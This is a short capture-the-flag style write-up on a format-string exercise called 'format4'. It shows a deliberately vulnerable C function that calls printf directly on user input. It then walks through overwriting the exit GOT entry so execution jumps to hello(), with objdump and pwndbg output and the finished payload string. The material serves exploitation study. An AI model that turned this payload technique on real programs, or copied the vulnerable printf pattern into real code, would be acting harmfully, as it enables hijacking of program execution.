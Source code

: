 ```c
}

void vuln()
{
  char buffer[512];
  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);   
}

int main(int argc, char **argv)
{
  vuln();
}
```

like ret2win, but it has `exit(1)`, because of `No RELRO` . We can overwrite **got.exit** to hello funct.

```bash
$ objdump -R format4 | grep exit
0804b2ec R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804b2f8 R_386_JUMP_SLOT   exit@GLIBC_2.0 # addr
pwndbg> p hello
$1 = {<text variable, no debug info>} 0x8049216 <hello>
$ ./format4
AAAA%4$p
AAAA0x41414141 # find out the offset = 4
```

- high oder bytes at `0x0804b2fa`
- low oder bytes at `0x0804b2f8`
- in high addr = 0x804 (2052 in decimal), but we already wrote 8 bytes so we need write `%2044x`
    - `%4$hn` to write 2 bytes high addr
- in low addr = 0x9216 (37398 in decimal), but we already wrote 2052 bytes before, so we need `%35346x`
    - `%5$hn` to write 2 bytes low addr

> \xfa\xb2\x04\x08\xf8\xb2\x04\x08%2044x%4$hn%35346x%5$hn
> 

```bash
pwndbg> r < <(python -c "print '\xfa\xb2\x04\x08\xf8\xb2\x04\x08%2044x%4\$hn%35346x%5\$hn'")
pwndbg> c
Code execution redirected !
[Inferior 1 (process 18932) exited with code 01]
```

# Ref src

- [Exploit 101 - Format Strings - BreakInSecurity (axcheron.github.io)](https://axcheron.github.io/exploit-101-format-strings/#random-write)